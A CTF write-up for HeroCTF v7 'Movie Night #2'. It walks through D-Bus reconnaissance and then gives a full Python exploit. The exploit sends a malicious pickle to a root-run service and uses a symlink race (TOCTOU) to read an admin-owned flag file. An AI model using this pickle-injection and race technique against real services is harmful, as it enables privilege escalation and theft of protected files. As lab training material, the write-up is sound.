







## HeroCTF v7 - Movie Night #2 Write-up




### Step 1: Reconnaissance and Vector Identification
After connecting to the server via SSH, the first step is to analyze the environment to identify potential attack vectors.

```bash
ssh -p 14305 user@dyn01.heroctf.fr
```


We immediately check the running processes to understand what services we can interact with.

```bash
ps aux
```


The `ps aux` command reveals the key target: the Python script `/opt/procservice/procedure-processing-service.py`, running with `root` privileges. A custom service running with the highest privileges is an ideal candidate for finding vulnerabilities.

### Step 2: Analyzing the Attack Surface via D-Bus
Since we don't have direct access to the service's source code, we need to find a way to interact with it. The presence of the `dbus-daemon` process suggests that the service may use D-Bus. We list all active services on the system bus.

```bash
busctl list
```


We see the `com.system.ProcedureService` service with the same PID (20) as our Python script. Now, knowing the service name, we can inspect its methods using introspection.

```bash
busctl introspect com.system.ProcedureService /com/system/ProcedureService
```


Introspection reveals the service's API, specifically the `RegisterProcedure` and `ExecuteProcedure` methods. This confirms that our attack plan should be focused on manipulating these procedures.

### Step 3: Formulating the Hypothesis: The TOCTOU Vulnerability
Combining the hint about the "bomb on a bus" with the service's API, we formulate a hypothesis about a **Time-of-Check-to-Time-of-Use (TOCTOU)** vulnerability.

**Attack Plan:**
1. The service likely executes a procedure's code with the privileges of that procedure file's owner.
2. **Time-of-Check:** The service checks the file's owner.
3. **Time-of-Use:** The service executes the code.
4. Our goal is to swap the file *between* the check and the use. We will register a procedure, and at the moment of execution, the code inside its `__reduce__` method will instantly replace this file with a symbolic link to a file owned by `admin`. If we win the "race," the service will check our file but execute code with `admin` privileges.

### Step 4: Creating the Exploit
The server lacks text editors (`nano`, `vim`), so we create the exploit file directly in the terminal using the `cat` command with input redirection.

```bash
cat <<'EOF' > exploit.py
# ... all the code will be pasted here ...
EOF
```


The key element of the exploit is an **atomic file replacement**. A simple remove and symlink is not reliable. Instead, we create a symlink in the temporary `/tmp` directory and then **atomically move** it using `os.rename()` to replace the original procedure file. This closes the window for the race condition.

#### Final Exploit Code (`exploit.py`)
```python
#!/usr/bin/env python3
import dbus
import pickle
import base64
import os
import glob

PROCEDURE_NAME = "atomic_exploit_final"
TARGET_FILE = "/home/admin/flag.txt"
PROCEDURE_PATH_PATTERN = f"/var/procedures/*_{PROCEDURE_NAME}.pkl"

class AtomicRaceExploit(object):
    def __reduce__(self):
        # This is the logic that will run inside the server process.
        # It is designed to be a single, executable string for `exec`.
        atomic_swap_script = f"""
import os
import glob

# Find the path to the procedure file we need to replace.
p_pattern = {repr(PROCEDURE_PATH_PATTERN)}
original_path_list = list(glob.glob(p_pattern))
if original_path_list:
    original_path = original_path_list[0]

    # Define the target file and a unique temporary path for our symlink.
    target = {repr(TARGET_FILE)}
    tmp_path = '/tmp/' + os.urandom(8).hex()

    # 1. Create the symlink in a temporary, writable location.
    os.symlink(target, tmp_path)

    # 2. Atomically move the symlink to replace the original file.
    # This 'rename' operation is the key to winning the race condition.
    os.rename(tmp_path, original_path)
"""

        final_payload = f"print(open('{TARGET_FILE}').read())"

        return (eval, (f"__import__('builtins').exec({repr(atomic_swap_script)}) or {repr(final_payload)}",))

def main():
    print("[*] Creating the final atomic TOCTOU payload...")
    payload_obj = AtomicRaceExploit()
    serialized_data = pickle.dumps(payload_obj)
    b64_payload = base64.b64encode(serialized_data).decode('utf-8')

    print("[*] Connecting to the system D-Bus...")
    try:
        bus = dbus.SystemBus()
        proxy = bus.get_object('com.system.ProcedureService', '/com/system/ProcedureService')
        interface = dbus.Interface(proxy, 'com.system.ProcedureService')
    except dbus.exceptions.DBusException as e:
        print(f"[-] Failed to connect to D-Bus: {e}")
        return

    print(f"[*] Registering procedure '{PROCEDURE_NAME}'...")
    try:
        interface.RemoveProcedure(PROCEDURE_NAME)
    except dbus.exceptions.DBusException:
        pass

    interface.RegisterProcedure(PROCEDURE_NAME, b64_payload)


    print("[*] Executing procedure to trigger the atomic swap...")
    try:
        result = interface.ExecuteProcedure(PROCEDURE_NAME)
        print("\n[+] Attack successful! The flag is:")
        print(result)
    except dbus.exceptions.DBusException as e:
        print(f"[-] An error occurred during execution: {e}")

if __name__ == "__main__":
    main()
```

### Step 5: Obtaining the Flag
All that's left is to make the script executable and run it.

```bash
chmod +x exploit.py
./exploit.py
```


The exploit succeeds, winning the race condition and forcing the service to read the flag with administrator privileges and return it to us.

### Flag
`Hero{d0ubl3_rc3_ftw_ad57172613c7d5403a671fd7878a659d}`